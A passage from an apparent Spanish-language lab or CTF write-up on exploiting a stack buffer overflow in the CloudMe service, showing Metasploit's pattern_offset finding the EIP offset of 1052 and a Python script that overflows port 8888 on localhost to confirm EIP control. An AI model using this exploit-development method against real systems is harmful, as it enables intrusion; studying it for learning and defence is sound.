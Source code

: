 Una vez mas tenemos que lanzar el CloudMe porque previamente a petado. Tambien tenemos nuevamente que attachear al Immunity Debugger el servicio CloudMe.
Lanzamos el script y vemos que el valor del EIP vale `316A4230`

Con la herramienta `pattern_offset` podemos comprovar cuantas **A** tengo que meter antes de sobre escribir la EIP

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 316A4230

#Output
[*] Exact match at offset 1052
```

Ahora que tenemos el offset, vamos a modificar el script.

#### Etapa 4: Encontrar la direccion donde despues del EIP {-}

Aqui despues de añadir las **A** que tiene que tener 1052 de offset y las 4 **B** que seria el EIP, vamos a añadir
500 **C** para buscar la direccion donde se sobre escribe el resto del programa. 

```python
#!/usr/bin/python3

import socket
import signal
import pdb
import sys
import time

from pwn import *
from struct import pack

# Variables globales
remoteAddress = "127.0.0.1"

def executeExploit():
    offset = 1052
    before_eip = b"A" * offset
    eip = b"B" * 4
    after_eip = b"C" * 500

    payload = before_eip + eip + after_eip

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((remoteAddress, 8888))
    s.send(payload)

if __name__ == "__main__":
    executeExploit()
```

Si lanzamos el script, vemos en el Immunity debugger que el EIP vale ahora 42424242, es el punto donde savemos que tenemos el control
del EIP. Ahora la pregunta es, que tiene que valer el EIP para poderle injectar los commandos que queremos. Pues en el Immunity debugger, 
que el **ESP** contiene un monton de **C**. el ESP es la Stack. Si le hacemos un click derecho a la direccion y les damos a **Follow in Dumb**, 
en la parte baja de la izquierda vemos todas la **C** en formato raw.

